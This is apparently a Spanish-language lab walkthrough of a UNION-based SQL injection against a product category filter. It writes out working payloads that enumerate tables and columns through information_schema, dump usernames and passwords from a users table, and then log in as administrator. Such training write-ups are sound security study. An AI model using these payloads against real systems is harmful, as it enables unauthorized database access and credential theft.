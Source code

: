 ## Objetivo:

![[Pasted image 20240622170447.png]]

## Solución:

Seleccionamos una categoría de producto

![[Pasted image 20240622170523.png]]

Lo de siempre:
1. Identificar la cantidad de columnas.

```
' UNION SELECT NULL, NULL-- -
```

2. Ver tipo de dato de cada columna.

```
' UNION SELECT NULL, NULL-- -
```

3. Una vez identificado, crear el payload correspondiente a la explotación que queremos realizar.

Ahora bien aqui ya tenemos que hacer muchas mas cositas, como identificar: 
###### 1. Nombres de tablas

```
' UNION SELECT table_name, NULL FROM information_schema.tables-- -
```

![[Pasted image 20240622172205.png]]

Suponiendo que la tabla de usuarios es esta llamada **users_takhgm** entonces ahora usaremos esa tabla para hacer el descubrimiento de las columnas de dicha tabla para posteriormente extraer los datos...

###### 2. Nombres de las Tablas de Columnas

```
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users_takhgm'-- -
```

![[Pasted image 20240622173010.png]]

Una vez vemos los nombres de las columnas procederemos a extraer la informacion...

3. Extraer los datos de las columnas

```
' UNION SELECT username_pfliyo, password_yvnvgh FROM users_takhgm-- -
```


![[Pasted image 20240622173159.png]]

Ahora iniciamos sesión con el usuario administrador

![[Pasted image 20240622173232.png]]

